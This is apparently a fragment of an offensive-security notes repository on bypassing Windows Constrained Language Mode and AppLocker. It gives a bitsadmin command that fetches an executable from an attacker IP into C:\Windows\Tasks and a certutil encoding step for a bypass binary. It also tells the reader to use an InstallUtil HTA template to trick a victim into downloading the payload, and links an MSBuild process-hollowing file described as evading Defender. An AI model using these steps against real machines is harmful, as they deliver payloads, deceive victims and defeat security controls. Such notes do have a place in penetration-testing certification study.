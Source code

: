 ### <ins>InstallUtil (installutil-template.hta)</ins>
*Note: if curl is not available on the target machine, we can use bitsadmin instead:*
- `bitsadmin /transfer myJob http://192.168.45.199/scanVenger.exe C:\Windows\Tasks\scanvenger.exe`

- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.

### <ins>MSBuild (msbuild.hta)</ins>
- Use the file [hollow.xml](https://github.com/Extravenger/OSEPlayground/blob/main/03%20-%20CLM%20%26%20Applocker%20Bypass/3%20-%20MSBuild/hollow.xml). (Bypass defender and Applocker defautlt rules)
